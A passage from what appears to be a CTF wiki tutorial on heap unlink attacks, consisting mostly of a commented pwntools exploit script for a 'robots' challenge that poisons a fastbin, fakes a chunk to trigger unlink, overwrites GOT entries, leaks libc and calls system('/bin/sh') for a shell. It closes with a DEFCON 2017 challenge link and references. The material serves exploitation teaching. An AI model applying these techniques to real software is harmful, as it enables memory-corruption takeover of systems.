        p.recvuntil('Your choice :')
        p.sendline(str(idx))
        if idx == 2:
            p.recvuntil("Increase Bender's intelligence: ")
            p.sendline(str(size))
        elif idx == 3:
            p.recvuntil("Increase Robot Devil's cruelty: ")
            p.sendline(str(size))
        elif idx == 6:
            p.recvuntil("Increase Destructor's powerful: ")
            p.sendline(str(size))


    def remove(idx):
        p.recvuntil('Your choice :')
        p.sendline('2')
        p.recvuntil('Your choice :')
        p.sendline(str(idx))


    def change(idx, name):
        p.recvuntil('Your choice :')
        p.sendline('3')
        p.recvuntil('Your choice :')
        p.sendline(str(idx))
        p.recvuntil("Robot's name: \n")
        p.send(name)


    def start_robot():
        p.recvuntil('Your choice :')
        p.sendline('4')


    def overflow_benderinuse(inuse):
        p.recvuntil('Your choice :')
        p.sendline('1')
        p.recvuntil('Your choice :')
        p.send('9999' + inuse)


    def write(where, what):
        change(1, p64(where))
        change(6, p64(what))


    def exp():
        print "step 1"
        # add a fastbin chunk 0x20 and free it
        # so it is in fastbin, idx2->NULL
        add(2, 1)  # idx2
        remove(2)
        # overflow bender inuse with 1
        overflow_benderinuse('\x01')
        # change bender's fd to 0x603138, point to bender's size
        # now fastbin 0x20, idx2->0x603138->NULL
        change(2, p64(0x603138))
        # in order add bender again
        overflow_benderinuse('\x00')
        # add bender again, fastbin 0x603138->NULL
        add(2, 1)
        # in order to malloc chunk at 0x603138
        # we need to bypass the fastbin size check, i.e. set *0x603140=0x20
        # it is at Robot Devil
        add(3, 0x20)
        # trigger malloc, set tinny point to 0x603148
        add(1)
        # wheels must <= 3
        remove(2)
        remove(3)

        print 'step 2'
        # alloc Destructor size 60->0x50, chunk content 0x40
        add(6, 3)
        # alloc devil, size=20*7=140, bigger than fastbin
        add(3, 7)
        # edit destructor's size to 1000 by tinny
        change(1, p64(1000))
        # place fake chunk at destructor's pointer
        fakechunk_addr = 0x6030E8
        fakechunk = p64(0) + p64(0x20) + p64(fakechunk_addr - 0x18) + p64(
            fakechunk_addr - 0x10) + p64(0x20)
        fakechunk = fakechunk.ljust(0x40, 'a')
        fakechunk += p64(0x40) + p64(0xa0)
        change(6, fakechunk)
        # trigger unlink
        remove(3)

        print 'step 3'
        # make 0x6030F8 point to 0x6030E8
        payload = p64(0) * 2 + 0x18 * 'a' + p64(0x6030E8)
        change(6, payload)

        print 'step 4'
        # make exit just as return
        write(robots.got['exit'], 0x401954)

        print 'step 5'
        # set wheel cnt =3, 0x603130 in order to start robot
        write(0x603130, 3)
        # set destructor point to puts@got
        change(1, p64(robots.got['puts']))
        start_robot()
        p.recvuntil('New hands great!! Thx ')
        puts_addr = p.recvuntil('!\n', drop=True).ljust(8, '\x00')
        puts_addr = u64(puts_addr)
        log.success('puts addr: ' + hex(puts_addr))
        libc_base = puts_addr - libc.symbols['puts']
        log.success('libc base: ' + hex(libc_base))
        system_addr = libc_base + libc.symbols['system']
        binsh_addr = libc_base + next(libc.search('/bin/sh'))

        # make free->system
        write(robots.got['free'], system_addr)
        # make destructor point to /bin/sh addr
        write(0x6030E8, binsh_addr)
        # get shell
        remove(6)
        p.interactive()

        pass


    if __name__ == "__main__":
        exp()

题目
----

-  `DEFCON 2017 Qualifiers beatmeonthedl <https://github.com/Owlz/CTF/raw/master/2017/DEFCON/beatmeonthedl/beatmeonthedl>`__

参考
----

-  malloc@angelboy
-  https://gist.github.com/niklasb/074428333b817d2ecb63f7926074427a

.. |image0| image:: /pwn/heap/figure/unlink_smallbin_intro.png
.. |image1| image:: /pwn/heap/figure/old_unlink_vul.png
.. |image2| image:: /pwn/heap/figure/new_unlink_vul.png
